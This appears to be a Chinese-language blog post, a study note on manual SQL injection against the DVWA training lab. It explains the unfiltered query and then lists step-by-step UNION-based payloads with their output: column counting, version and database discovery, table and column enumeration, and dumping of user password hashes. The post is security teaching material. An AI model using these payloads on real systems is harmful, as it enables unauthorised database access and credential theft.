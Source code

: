 #+BEGIN_HTML
---
layout: post
title: 基础SQL注入
description: sql注入简单练习。
excerpt: ""
categories: 安全
tags: [sql]
---
#+END_HTML

* 手工sql注入
sql注入，就是用户通过浏览器提交的变量内容，后台应用程序对浏览器提交的内容并未进行检查过滤，
直接拼接sql语句后去查询数据库，导致将数据库中的其它信息返回至用户界面中，造成数据库中其它
未对用户授权的数据泄漏。

** DVWA Sql注入学习
测试sql语句
: "SELECT first_name, last_name FROM users WHERE user_id = '$id';"
*** 返回内容正常
: ID: 1
: First name: admin
: Surname: admin
*** 返回查询所有记录
: ID: 1' or '1'='1
: First name: admin
: Surname: admin
: ID: 1' or '1'='1
: First name: Gordon
: Surname: Brown
: ID: 1' or '1'='1
: First name: Hack
: Surname: Me
: ID: 1' or '1'='1
: First name: Pablo
: Surname: Picasso
: ID: 1' or '1'='1
: First name: Bob
: Surname: Smith
*** 判断有多少个字段，修改order by 后面的字段值，直到数据库报错
: ID: 1' or 1=1 order by 2 #
: First name: admin
: Surname: admin
: ID: 1' or 1=1 order by 2 #
: First name: Gordon
: Surname: Brown
: ID: 1' or 1=1 order by 2 #
: First name: Hack
: Surname: Me
: ID: 1' or 1=1 order by 2 #
: First name: Pablo
: Surname: Picasso
: ID: 1' or 1=1 order by 2 #
: First name: Bob
: Surname: Smith
: 执行结果说明，sql查询语句中只有两个字段
*** 确定显示的字段顺序
: ID: 1' union select 1,2 #
: First name: admin
: Surname: admin
: ID: 1' union select 1,2 #
: First name: 1
: Surname: 2
*** 获取当前数据库及版本
: ID: 1' union select version(),database() #
: First name: admin
: Surname: admin
: ID: 1' union select version(),database() #
: First name: 10.1.26-MariaDB-0+deb9u1
: Surname: dvwa
: 从返回结果中我们可以看出数据库的名称和版本号
*** 获取数据库中的表
: ID: 1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
: First name: admin
: Surname: admin
: ID: 1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
: First name: 1
: Surname: guestbook,users
: 返回结果说明，数据库中存在了两张表为: guestbook,user
*** 获取表字段名称
: ID: 1' union select 1,group_concat(column_name) from information_schema.columns where table_name="users" #
: First name: admin
: Surname: admin
: ID: 1' union select 1,group_concat(column_name) from information_schema.columns where table_name="users" #
: First name: 1
: Surname: user_id,first_name,last_name,user,password,avatar,last_login,failed_login
*** 获取表中数据
: ID: 1' union select group_concat(first_name),group_concat(password) from users #
: First name: admin
: Surname: admin
: ID: 1' union select group_concat(first_name),group_concat(password) from users #
: First name: admin,Gordon,Hack,Pablo,Bob
: Surname: 5f4dcc3b5aa765d61d8327deb882cf99,e99a18c428cb38d5f260853678922e03,8d3533d75ae2c3966d7e0d4fcc69216b,0d107d09f5bbe40cade3de5c71e9e9b7,5f4dcc3b5aa765d61d8327deb882cf99
:
: 
: ID: 1' union select last_name,password from users #
: First name: admin
: Surname: admin
: ID: 1' union select last_name,password from users #
: First name: admin
: Surname: 5f4dcc3b5aa765d61d8327deb882cf99
: ID: 1' union select last_name,password from users #
: First name: Brown
: Surname: e99a18c428cb38d5f260853678922e03
: ID: 1' union select last_name,password from users #
: First name: Me
: Surname: 8d3533d75ae2c3966d7e0d4fcc69216b
: ID: 1' union select last_name,password from users #
: First name: Picasso
: Surname: 0d107d09f5bbe40cade3de5c71e9e9b7
: ID: 1' union select last_name,password from users #
: First name: Smith
: Surname: 5f4dcc3b5aa765d61d8327deb882cf99

#+BEGIN_HTML
<!-- more-forword -->
#+END_HTML


#+BEGIN_HTML
<!-- more -->
#+END_HTML
